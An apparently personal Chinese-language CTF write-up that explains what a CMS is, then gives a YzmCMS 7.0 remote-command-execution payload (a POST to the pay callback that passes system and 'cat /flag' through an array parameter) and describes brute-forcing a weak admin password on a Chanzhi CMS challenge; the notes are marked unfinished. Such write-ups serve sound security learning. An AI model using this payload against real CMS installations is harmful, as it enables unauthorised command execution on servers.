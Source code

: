 那么，什么是cms呢？
>CMS是Content Management System的缩写，意为"内容管理系统"。
>
>CMS系统是内容管理系统(CMS)是一种软件应用程序，可创建、编辑、组织和发布内容,并进行协作式管理，根据角色分配不同的权限和责任。
>
>例如，作者可以发布和保存作品，而编辑可以修改和发布作品；管理员可以执行所有这些操作，也可以授予组织中的其他人更新或修改内容的权限。
### SHCTF [Week3] 小小cms
参考文章：
- [shctf[Week3] 小小cms](https://www.cnblogs.com/c1432/p/18500454)  
- [YzmCMS 7.0任意函数调用RCE 漏洞研究分析](https://blog.csdn.net/shelter1234567/article/details/138524342)  
环境都打不开了，贴个payload吧:  
`/pay/index/pay_callback`目录下，POST传入`out_trade_no[0]=eq&out_trade_no[1]=cat /flag&out_trade_no[2]=system`  
### [GKCTF 2021]easycms   from buujo
参考文章：  
- [蝉知企业门户系统v7.7 - 命令执行漏洞](https://blog.csdn.net/LYJ20010728/article/details/120005727)  

根据刚才那个题，这个拿到题直接搜，搜到这个cms也有漏洞，而且版本也与靶机的相同为`v7.7`  
进入后台`http://274ec28d-6c82-47ad-9d21-42379a85dd72.node5.buuoj.cn:81/admin.php`用户名是`admin`密码为5位弱口令，使用bp爆破,得到密码是`12345`  


未完~~~~~
## ISCTF
![](https://gitee.com/SSSSSHONE/ss/raw/master/2024-11-10122533.jpg)


